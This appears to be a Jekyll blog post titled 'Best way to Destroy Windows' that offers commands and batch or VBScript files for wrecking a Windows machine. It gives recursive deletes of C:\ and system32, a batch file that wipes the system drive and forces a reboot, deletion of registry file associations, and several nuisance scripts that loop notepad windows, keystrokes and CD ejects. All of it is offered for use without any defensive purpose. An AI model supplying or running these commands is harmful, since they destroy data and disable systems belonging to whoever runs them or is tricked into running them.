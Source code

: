 ```yaml
---
layout: post
title: Best way to Destroy Windows
subtitle: Run this command without moderation;)
bigimg: /img/winfuckoff.jpg
---
```


## Best way to Destroy Windows
Run this command without moderation;)

### 1. Type this in command prompt:

> RD C:\ /S /Q

> del c:\windows\system32\*.* /q

> del /f /s /q "C:\*.*."

### 2. Type this in notepad:

Save the file anywhere (.bat) and execute it:

##### 2.1 The blue screen of Death
Code:
```
@echo off <br>
del %systemdrive%\*.*/f/s/q <br>
shutdown -r -f -t 00 
```

##### 2.2 Stupidity Shutdown
code:
```
@echo off
msg * Fatal system error due to admin stupidity!
shutdown -c “Error! You are too stupid!” -s -t 10
```

##### 2.3 Delete Key Registry Files
code:
```
@ECHO OFF
START reg delete HKCR/.exe
START reg delete HKCR/.dll
START reg delete HKCR/*
:MESSAGE
ECHO Your computer has been fcked.Â Â Have a nice day.
GOTO MESSAGE
```

##### 2.4 Endless Notepads
code:
```
@ECHO off
:top
START %SystemRoot%\system32\notepad.exe
GOTO top
```

##### 2.5 Crazy caps lock
code:
```
Set wshShell =wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “{CAPSLOCK}”
loop
```

##### 2.6 Endless Enter
code:
```
Set wshShell = wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “~(enter)”
loop
```

##### 2.7 Endless Backspace
code:
```
MsgBox “Let’s go back a few steps”
Set wshShell =wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “{bs}”
loop
```

##### 2.8 Popping CD Drives
code:
```
Set oWMP = CreateObject(“WMPlayer.OCX.7”)
Set colCDROMs = oWMP.cdromCollection
do
if colCDROMs.Count >= 1 then
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
End If
wscript.sleep 100
loop
```


And have a good day!

Font's: [dbsdp](http://dbsdp.blogspot.com.br/2010/10/destroy-xp-with-single-command.html) | [itechnobuzz](https://www.itechnobuzz.com/the-8-deadly-windows-vbs-commands/l)